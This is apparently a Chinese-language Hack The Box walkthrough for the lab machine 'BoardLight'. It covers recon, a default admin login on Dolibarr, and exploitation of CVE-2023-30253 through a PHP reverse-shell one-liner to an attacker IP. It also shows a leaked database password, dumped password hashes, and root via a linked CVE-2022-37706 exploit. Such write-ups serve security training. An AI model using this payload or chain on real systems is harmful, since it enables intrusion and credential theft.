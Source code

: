 ```yaml
---
title: "HTB-BoardLight"
date: 2024-09-04
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O boardlight.htb
```

![](./images/image-43.png)

开放端口：`22、80`

Server：`Apache 2.4.41 (Ubuntu)`

### Dirsearch

```
dirsearch  -u boardlight.htb -t 50
```

![](./images/image-44.png)

### Subdomain Fuzzing

![](./images/image-45.png)

在页尾发现一个：`Board.htb`

修改 `/etc/hosts`

![](./images/image-46.png)

```
ffuf -w main.txt -u http://board.htb -H "Host:FUZZ.board.htb" -ac
```

![](./images/image-47.png)

获得子域名：`crm`

并且更新 `/etc/hosts`

## Weak Auth

进入`crm.board.htb`

![](./images/image-48.png)

用户名密码：`admin`，`admin`

![](./images/image-49.png)

## CVE-2023-30253

**Github**：[dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)

![](./images/image-50.png)

添加站点以及页面

![](./images/image-51.png)

尝试修改源码，回显成功

![](./images/image-52.png)

![](./images/image-53.png)

```
<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.8/100 0>&1'"); ?>
```

![](./images/image-54.png)

拿到shell

![](./images/image-55.png)

这里使用python脚本来简化。

![](./images/image-56.png)

![](./images/image-57.png)

上传`linpeas.sh` ，并且执行

![](./images/image-58.png)

发现存在`3306`端口，并且在`conf`里找到登陆密码

![](./images/image-59.png)

```
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
```

查询`user`表

![](./images/image-60.png)

格式化一下

```
| rowid | entity | ref_employee | ref_ext | admin | employee | fk_establishment | datec               | tms                 | fk_user_creat | fk_user_modif | login    | pass_encoding | pass_crypted                                                                                       | pass_temp | api_key | gender | civility | lastname   | firstname | address | zip  | town | fk_state | fk_country | birth | birth_place | job | office_phone | office_fax | user_mobile | personal_mobile | email | personal_email | signature | socialnetworks | fk_soc | fk_socpeople | fk_member | fk_user | fk_user_expense_validator | fk_user_holiday_validator | idpers1 | idpers2 | idpers3 | note_public | note_private | model_pdf | datelastlogin       | datepreviouslogin    | datelastpassvalidation | datestartvalidity | dateendvalidity | iplastlogin   | ippreviouslogin | egroupware_id | ldap_sid | openid | statut | photo | lang | color | barcode | fk_barcode_type | accountancy_code | nb_holiday | thm | tjm | salary | salaryextra | dateemployment     | dateemploymentend   | weeklyhours | import_key | default_range | default_c_exp_tax_cat | national_registration_number | fk_warehouse |
|-------|--------|--------------|---------|-------|----------|------------------|---------------------|---------------------|---------------|---------------|----------|---------------|----------------------------------------------------------------------------------------------------|------------|---------|--------|----------|------------|-----------|---------|------|-------|----------|------------|-------|-------------|-----|--------------|------------|-------------|-----------------|-------|----------------|-----------|----------------|---------|--------------|---------|---------|---------------------------|---------------------------|---------|---------|---------|-------------|--------------|-----------|---------------------|----------------------|-----------------------|-------------------|-----------------|--------------|-----------------|---------------|----------|--------|--------|-------|-------|---------|----------------|------------------|-------------|-----|-----|---------|--------------|-------------------|---------------------|-------------|------------|---------------|----------------------|-------------------------------|--------------|
| 1     | 0      | NULL         | NULL    | 1     | 1        | 0                | 2024-05-13 13:21:56  | 2024-05-13 13:21:56  | NULL          | NULL          | dolibarr | NULL          | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm                                       | NULL       | NULL    | NULL   | NULL     | SuperAdmin | NULL      | NULL    | NULL | NULL  | NULL     | NULL       | NULL  | NULL        | NULL| NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL    | NULL         | NULL    | NULL   | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-05-15 09:57:04 | 2024-05-13 23:23:59  | NULL                  | NULL              | NULL            | 10.10.14.31  | 10.10.14.41     | NULL          | NULL     | NULL   | 1      | NULL  | NULL  | NULL    | NULL           | NULL             | NULL        | NULL| NULL| NULL    | NULL         | NULL               | NULL                | NULL        | NULL       | NULL          | NULL                 | NULL                          | NULL         |
| 2     | 1      | NULL         | NULL    | 0     | 1        | 0                | 2024-05-13 13:24:01  | 2024-05-15 09:58:40  | NULL          | NULL          | admin    | NULL          | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96                                       | yr6V3pXd9QEI | NULL    | NULL   | NULL     | admin      | NULL      | NULL    | NULL | NULL  | NULL     | NULL       | NULL  | NULL        | NULL| NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL    | NULL         | NULL    | NULL   | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-09-03 20:37:39 | 2024-09-03 20:04:27  | NULL                  | NULL              | NULL            | 10.10.16.8   | 10.10.16.24     | NULL          | NULL     | NULL   | 1      | NULL  | NULL  | NULL    | NULL           | NULL             | NULL        | NULL| NULL| NULL    | NULL         | NULL               | NULL                | NULL        | NULL       | NULL          | NULL                 | NULL                          | NULL         |
```

这里我使用`hashcat`爆破失败，尝试将mysql的密码作为ssh的密码登录成功，并且得到`user.txt`。

![](./images/image-62.png)

`sudo -l` ，并没有特殊权限的文件。

## CVE-2022-37706

Github：[MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)

在`Files with Interesting Permissions` ，里发现一个`enlightenment`的东西

![](./images/image-63.png)

将`exploit.sh` ，下载下来执行，获取到root权限。

![](./images/image-65.png)

## Summary

端口扫描、子域名扫描、目录扫描是标准的前置过程。

针对网站细节信息进行搜集获取CVE。

Linpeas暴露出的特殊权限的文件。

Hashcat不一定能够爆破出正确的明文。
